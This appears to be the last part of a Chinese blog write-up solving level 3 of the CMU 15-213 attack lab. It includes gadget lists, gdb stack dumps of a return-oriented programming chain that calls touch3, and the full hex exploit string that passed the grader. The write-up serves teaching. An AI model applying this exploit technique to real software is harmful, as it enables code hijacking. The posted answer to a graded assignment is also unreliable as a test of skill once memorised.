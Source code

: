 ```asm
setval_356: nope
setval_220: nope
addval_170: nope
getval_287: nope
getval_351: nope
setval_222: 401c3e mov esi, ecx
getval_486: nope
getval_485: nope
```

我们的目标是，传 rdi 为一段字符串，自然只能放到栈上，但是栈的地址是会变的，所以必须要从 rsp 加上偏移得到，能做加法的只有 `add_xy: rax = rdi + rsi`，意味着首先要通过 `mov rax, rsp` 和 `mov rdi, rax`得到前半部分，再通过 `pop rax`  `mov edx, eax` `mov ecx, edx` 和 `mov esi, exc` 得到后半部分，其中 rax 就是栈上面当前 rsp 和 最后放字符串的偏移。得到正确的地址之后，就 `mov rdi, rax` 即可，最后跳到 `touch3` 。ROP 链时的栈：

```asm
[-------------------------------------code-------------------------------------]
=> 0x401b8a <addval_269+2>:     mov    rax,rsp
   0x401b8d <addval_269+5>:     ret
   0x401b8e <addval_269+6>:     ret
   0x401b8f <setval_454>:       mov    DWORD PTR [rdi],0x94e08948
[------------------------------------stack-------------------------------------]
0000| 0x7ffffffea8d0 --> 0x401b63 (<addval_219+2>:      mov    rdi,rax)
0008| 0x7ffffffea8d8 --> 0x401b42 (<addval_408+2>:      pop    rax)
0016| 0x7ffffffea8e0 --> 0x48 ('H')
0024| 0x7ffffffea8e8 --> 0x401ba7 (<setval_468+4>:      mov    edx,eax)
0032| 0x7ffffffea8f0 --> 0x401be3 (<setval_474+4>:      mov    ecx,edx)
0040| 0x7ffffffea8f8 --> 0x401c3e (<setval_222+3>:      mov    esi,ecx)
0048| 0x7ffffffea900 --> 0x401b75 (<add_xy>:    lea    rax,[rdi+rsi*1])
0056| 0x7ffffffea908 --> 0x401b48 (<getval_282+1>:      mov    rdi,rax)
[------------------------------------------------------------------------------]


[-------------------------------------code-------------------------------------]
=> 0x401b43 <addval_408+3>:     nop
   0x401b44 <addval_408+4>:     ret
   0x401b45 <addval_408+5>:     faddp  st(3),st
   0x401b47 <getval_282>:       mov    eax,0xc3c78948
[------------------------------------stack-------------------------------------]
0000| 0x7ffffffea8e8 --> 0x401ba7 (<setval_468+4>:      mov    edx,eax)
0008| 0x7ffffffea8f0 --> 0x401be3 (<setval_474+4>:      mov    ecx,edx)
0016| 0x7ffffffea8f8 --> 0x401c3e (<setval_222+3>:      mov    esi,ecx)
0024| 0x7ffffffea900 --> 0x401b75 (<add_xy>:    lea    rax,[rdi+rsi*1])
0032| 0x7ffffffea908 --> 0x401b48 (<getval_282+1>:      mov    rdi,rax)
0040| 0x7ffffffea910 --> 0x401a9c (<touch3>:    push   rbx)
0048| 0x7ffffffea918 ("5815086a")
0056| 0x7ffffffea920 --> 0xf4f4f4f4f4f40000
```

这样就完成了整个 ROP 链的攻击：

```
Cookie: 0x5815086a
Type string:Touch3!: You called touch3("5815086a")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
        user id NoOne
        course  15213-f15
        lab     attacklab
        result  2017011484:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 8A 1B 40 00 00 00 00 00 63 1B 40 00 00 00 00 00 42 1B 40 00 00 00 00 00 48 00 00 00 00 00 00 00 A7 1B 40 00 00 00 00 00 E3 1B 40 00 00 00 00 00 3E 1C 40 00 00 00 00 00 75 1B 40 00 00 00 00 00 48 1B 40 00 00 00 00 00 9C 1A 40 00 00 00 00 00 35 38 31 35 30 38 36 61 00
```

至此，整个作业就做完了。